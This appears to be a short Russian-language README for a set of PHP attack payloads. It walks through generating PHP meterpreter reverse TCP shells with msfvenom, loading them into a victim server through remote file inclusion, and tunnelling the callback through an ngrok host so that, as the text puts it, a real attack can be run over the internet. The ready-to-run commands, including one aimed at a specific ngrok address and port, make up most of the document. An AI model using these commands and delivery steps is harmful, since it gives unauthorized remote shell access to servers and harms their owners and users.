 Генерируем payload php в msfvenom.

Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > meterpreter_reverse_tcp.php
p.s. Если в LHOST длинное доменное имя, то пишем LHOSTдоменное_имя (слитно)

Как работать с payloadom:
1) Тыкаем на скрипт
2) Нажимаем Raw
3) Копируем ссылку
4) Вставляем в RFI

Файл local_meterpreter_reverse_tcp.php - файл с локальным ip адрессом в LHOST (сетевой адаптер в режиме NAT), используется если атакующая машинка и сервер-жертва в одной сети, и то в таком случае лучше использовать "host-only".

Для того, чтобы провести реальную атаку в интернете стоит использовать ngrok - прокидывает порты на домен (даёшь ему локальный ip и порт, а он возвращает тебе глобальный) 

Создаём payload на php используюя ngrok для ip адресации (т.к. машинка в NAT, то ngrok прокидывает порты на домен и решает проблему доступнсти ip адреса только внутри сети):
1) ngrok tcp 4444
2) ngrok выдасть нам:
Forwarding   tcp://6.tcp.eu.ngrok.io:15089 -> localhost:4444
3) LHOST=6.tcp.eu.ngrok.io  LPORT=15089
4) msfvenom -p php/meterpreter_reverse_tcp LHOST=6.tcp.eu.ngrok.io LPORT=15089 -f raw > shell.php 
